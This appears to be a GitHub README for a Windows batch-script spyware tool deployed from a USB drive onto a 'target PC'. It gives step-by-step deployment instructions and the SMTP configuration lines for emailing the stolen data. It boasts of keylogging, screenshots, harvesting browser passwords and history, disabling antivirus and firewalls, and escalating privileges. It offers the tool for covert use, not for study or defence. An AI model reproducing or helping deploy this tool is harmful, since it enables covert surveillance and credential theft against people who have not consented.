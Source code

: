Downloads the files and follow the step by step procedure!!!!!!

Open the script.bat file in a text editor and update it with your email and password where you want to receive the data. 
Set SMTP Configuration for Email Sending
:: Set SMTP configuration for email sending
set "smtp_server=smtp.gmail.com"
set "smtp_port=587"
set "smtp_user=your_email@gmail.com"
set "smtp_password=your_password"
set "recipient_email=recipient_email@gmail.com"

This tool is designed to stealthily capture and transmit sensitive user information, such as keystrokes, screenshots, browser history, and passwords, after a specified time, send the data to your Gmail account. 
You can change the time period for which you will receive data. By default, it is set to 30 minutes.
For 15 minutes:
timeout /t 900 /nobreak
For 1 hour:
timeout /t 3600 /nobreak
For 2 hours:
timeout /t 7200 /nobreak

Ensure that the timing and email configuration are correctly set up in the scrip

Copy files to a USB drive. Ensure all required files are included for the script to function correctly.

Insert the USB drive into the target PC.

Run the Script

In case the script.bat does not run automatically, manually double-click the file to execute it. After the initial run, it should work perfectly.

Enjoy!!!!!!!!!

All-in-One Solution

The key functionalities of my project include:

1. Keylogging: Captures all keystrokes made by the user, providing a detailed log of their activities.
2. Screenshot Capture: Periodically takes screenshots of the user's screen to visually document their activities.
3. Browser History and Password Collection: Extracts browsing history and stored passwords from popular web browsers, giving a comprehensive view of the user's online behavior.
4. Disabling Antivirus and Firewalls: Identifies and disables active antivirus programs and firewalls to avoid detection and ensure uninterrupted operation.
5. Bypassing Administrator Access: Exploits vulnerabilities to gain elevated privileges, allowing the tool to operate with minimal restrictions.
6. Data Transmission via SMTP: Sends the collected data to a specified email address using SMTP, ensuring that the information is securely delivered to the attacker.
